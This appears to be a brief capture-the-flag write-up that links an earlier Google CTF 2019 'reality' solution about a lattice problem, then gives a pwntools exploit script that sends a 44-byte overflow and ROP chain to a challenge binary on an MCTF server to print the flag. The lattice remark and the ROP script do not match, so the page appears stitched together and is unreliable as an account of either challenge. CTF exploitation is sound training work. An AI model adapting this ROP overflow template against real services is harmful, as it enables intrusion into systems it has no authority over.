 a closest vector problem in lattice

Original writeup
(https://colab.research.google.com/github/nguyenduyhieukma/CTF-
Writeups/blob/master/Google%20CTF%20Quals/2019/reality/reality-
solution.ipynb).Here is exploit for this chal

```  
from pwn import args, ELF, process, remote, gdb, context, ROP, cyclic, re

PATH = "./reality"  
IP = 'mctf.ru'  
PORT = 28888  
elf = context.binary = ELF(PATH, checksec=False)  
GDBSCRIPT = '''b *clickit  
c  
'''

def conn():  
   if args.GDB:  
       return gdb.debug(PATH, gdbscript=GDBSCRIPT)  
   elif args.REMOTE:  
       return remote(IP, PORT)  
   elif args.LOCAL:  
       pty = process.PTY  
       return process(PATH, stdin=pty, stdout=pty)

def main():  
   r = conn()

   rop = ROP(elf)

   rop.one()  
   rop.two(322)  
   rop.three(0xdeadbeef, 0x0000ffff, 123)  
   rop.clickit()

   payload = cyclic(44)  
   payload += rop.chain()  
   r.recvline()  
   r.sendline(payload)

   # for debug purpose  
   # print(rop.dump())

   r.recvuntil(f"this? ")  
   r.sendline(b"128959393")  
   # print(r.recvall())  
   print(re.search("(MCTF{.*})", r.recvall().decode()).group(1))

if __name__ == '__main__':  
   main()  
```
